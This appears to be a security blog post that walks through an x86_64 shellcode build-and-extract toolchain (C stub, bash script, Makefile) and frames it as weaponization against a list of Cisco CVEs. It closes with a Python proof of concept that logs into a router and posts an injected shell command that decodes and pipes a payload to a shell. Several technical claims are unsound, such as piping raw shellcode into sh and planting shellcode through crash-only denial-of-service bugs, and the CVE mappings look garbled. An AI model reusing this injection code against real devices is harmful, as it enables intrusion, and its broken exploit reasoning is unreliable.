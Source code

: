 # Theoretical Automated Shellcode Generation for Cisco ASR 9010 Vulnerability Research

## Introduction

In the world of vulnerability research, especially targeting infrastructure-grade devices like the Cisco ASR 9010, one of the most critical and time-saving tasks is automated shellcode generation. This post walks through how to programmatically build and extract shellcode using a custom toolchain, then weaponize it against real-world vulnerabilities—including CVE-2023-20198 and several others impacting Cisco IOS XR and IOS XE.

We start with a compact x86\_64 shellcode stub in assembly, demonstrate how to compile and extract it, and integrate it into an exploit pipeline suitable for fuzzing and proof-of-concept weaponization.

---

## Shellcode Stub: `build_shellcode.c`

```c
__asm__(
    ".global shellcode_start\n"
    "shellcode_start:\n"
    "    xor %rax, %rax\n"
    "    mov $1, %rdi\n"
    "    call get_msg\n"
    "get_msg:\n"
    "    pop %rsi\n"
    "    mov $8, %rdx\n"
    "    mov $1, %rax\n"
    "    syscall\n"
    "    xor %rdi, %rdi\n"
    "    mov $60, %rax\n"
    "    syscall\n"
    "    .ascii \"deadbeef\"\n"
    ".global shellcode_end\n"
    "shellcode_end:\n"
);
```

This shellcode prints `deadbeef` to `stdout` and then exits cleanly. It's compact, testable, and ideal for injection payload testing.

---

## Extraction Script: `extract_shellcode.sh`

```bash
#!/bin/bash

set -e

OBJFILE="$1"
OUTFILE="$2"

if [ -z "$OBJFILE" ] || [ -z "$OUTFILE" ]; then
    echo "Usage: $0 <object.o> <output.bin>"
    exit 1
fi

TMPFILE=$(mktemp)
gobjcopy --dump-section .text="$TMPFILE" "$OBJFILE"

START_HEX=$(nm "$OBJFILE" | awk '/shellcode_start/ {print $1}')
END_HEX=$(nm "$OBJFILE" | awk '/shellcode_end/ {print $1}')

START_DEC=$((0x$START_HEX))
END_DEC=$((0x$END_HEX))
LENGTH=$((END_DEC - START_DEC))

dd if="$TMPFILE" of="$OUTFILE" bs=1 skip="$START_DEC" count="$LENGTH" status=none
echo "[*] Wrote $OUTFILE ($LENGTH bytes)"
rm -f "$TMPFILE"
```

This script extracts raw shellcode from a compiled object, bounded by the `shellcode_start` and `shellcode_end` labels.

---

## Makefile Pipeline

```makefile
CC=clang
CFLAGS=-Wall -Wextra -O2 -c

all: encoded_shellcode.txt

build_shellcode.o: build_shellcode.c
	$(CC) $(CFLAGS) -o $@ $<

raw_shellcode.bin: build_shellcode.o
	@start=$$(nm $< | awk '/shellcode_start/ {print $$1}'); \
	end=$$(nm $< | awk '/shellcode_end/ {print $$1}'); \
	start_dec=$$((0x$$start)); \
	end_dec=$$((0x$$end)); \
	len=$$((end_dec - start_dec)); \
	xxd -p -c1 $< | tail -n +$$((start_dec + 1)) | head -n $$len | xxd -r -p > $@

encode_shellcode: encode_shellcode.c
	$(CC) -O2 -o $@ $<

encoded_shellcode.txt: encode_shellcode raw_shellcode.bin
	./encode_shellcode raw_shellcode.bin > encoded_shellcode.txt

clean:
	rm -f build_shellcode.o encode_shellcode raw_shellcode.bin encoded_shellcode.txt
```

This fully automates extraction and optional encoding into a format usable for ROP chains or reverse shells.

---

## Application: Real Cisco CVEs

With `encoded_shellcode.txt` in hand, the payload can be dropped into actual exploit codebases. Here's a quick prioritization of Cisco ASR 9010-related vulnerabilities and ideas for PoC integration:

### 1. [CVE-2024-20327](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-iosxr-pppma-JKWFgneW)

Denial via PPPoE termination crash—test with malformed sessions, embed encoded shellcode into control message options.

### 2. [CVE-2021-34713](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-npspin-QYpwdhFD.html)

L2 punt crash—simulate malformed punted traffic to trigger line card reloads.

### 3. [CVE-2022-20919](https://nvd.nist.gov/vuln/detail/CVE-2022-20919)

Craft malformed CIP packets. Shellcode inserted via fuzzed options.

### 4. [CVE-2015-6301](https://www.cisco.com/c/en/us/support/docs/csa/Cisco-SA-20150918-CVE-2015-6301.html)

Exploit the DHCPv6 relay crash vector to trigger shellcode-based watchdog bypass or extended reboot.

### 5. [CVE-2023-20198](https://vulnera.com/newswire/proof-of-concept-exploit-code-released-for-critical-cisco-ios-xe-vulnerability/)

**Command injection in web UI**. Drop shellcode into uploaded scripts or command arguments.

### 6. [CVE-2024-20295](https://www.techtarget.com/searchsecurity/news/366581456/Cisco-discloses-high-severity-vulnerability-PoC-available)

Use authenticated CLI injection to elevate and execute extracted payloads.

### 7. [CVE-2020-3452](https://www.rapid7.com/blog/post/2020/07/23/cve-2020-3452-cisco-asa-firepower-read-only-path-traversal-vulnerability-what-you-need-to-know/)

Path traversal can help read memory dumps to validate shellcode injection success.

---

Conclusion: The Case for Automation in Router Exploitation

This automation approach drastically cuts down development time in exploit chains, allowing you to focus on delivery vectors and post-exploitation. While each CVE will require tailored payloads, having a flexible shellcode build-and-extract pipeline unlocks rapid iteration cycles for testing against live or emulated devices.

For future work, integrating this shellcode automation into a Ghidra or Binary Ninja plugin could streamline reverse engineering workflows even further.

    Disclaimer: This blog post is for educational and ethical security research purposes only. Unauthorized access or tampering with networks you don't own or have permission to test is illegal.

PoC: Exploiting CVE-2025-20186

# poc_cve_2025_20186.py
# Demonstrates exploiting CVE-2025-20186 via command injection
``` python
import requests

TARGET = "https://192.168.1.1"
USERNAME = "lobby_ambassador"
PASSWORD = "password123"

# Read the encoded shellcode
with open("encoded_shellcode.txt", "r") as f:
    shellcode = f.read().strip()

# Construct the injection payload
injection = f"; echo '{shellcode}' | base64 -d | ./sh > /dev/null 2>&1;"

# Authenticate and obtain session
session = requests.Session()
login_data = {
    "username": USERNAME,
    "password": PASSWORD
}
session.post(f"{TARGET}/login.cgi", data=login_data, verify=False)

# Send the exploit
payload = {
    "cmd": injection
}
response = session.post(f"{TARGET}/exec.cgi", data=payload, verify=False)

print(f"[*] Response Code: {response.status_code}")
print("[*] Exploit Sent")
```

This PoC targets the CVE-2025-20186 vulnerability, which allows an authenticated attacker with a lobby ambassador account to perform command injection attacks via the web-based management interface of Cisco IOS XE Software.

Happy hacking, and stay safe out there.
